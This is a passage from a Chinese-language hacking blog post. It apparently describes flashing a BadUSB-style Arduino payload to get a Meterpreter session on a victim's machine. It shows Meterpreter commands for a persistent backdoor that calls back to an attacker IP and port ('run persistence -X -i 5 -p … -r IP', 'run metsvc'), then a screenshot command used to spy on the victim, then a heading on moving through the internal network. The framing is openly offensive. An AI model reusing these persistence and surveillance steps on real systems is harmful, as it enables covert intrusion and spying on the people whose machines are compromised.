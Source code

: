 ```shell
}
void loop()//循环
{
}

```

![image-20230527100923342](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271009369.png)

更多代码在文章底部有相关信息，不要着急！

**编译好之后我们直接上传即可完成烧录，直接点击上传可以检查编译并上传。**

##  **Shell快到碗里来**

![image-20230527100942749](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271009772.png)

**让基友给我赶烧：**

![image-20230527101008879](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271010902.png)

**如图：**

![image-20230527101016985](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271010010.png)

**我们已经获取到了****Meterpreter****会话，现在我们可以为所欲为了！**

**为了防止亡羊补牢，要一劳永逸，我们先添加一个持久后门，命令如下：**

```sh
run persistence -X -i 5 -p 端口 -r IP
或者
run metsvc
```

**第二种方法直接监听即可，具体方法找谷哥和度娘。**

![image-20230527101110186](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011208.png)

**附带一张屏幕截图：**

```
screenshot
```

![image-20230527101127573](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011598.png)

**打开偷窥一下：**

![image-20230527101137573](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011626.png)

##  **内网漫游**

![image-20230527101147676](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271011699.png)
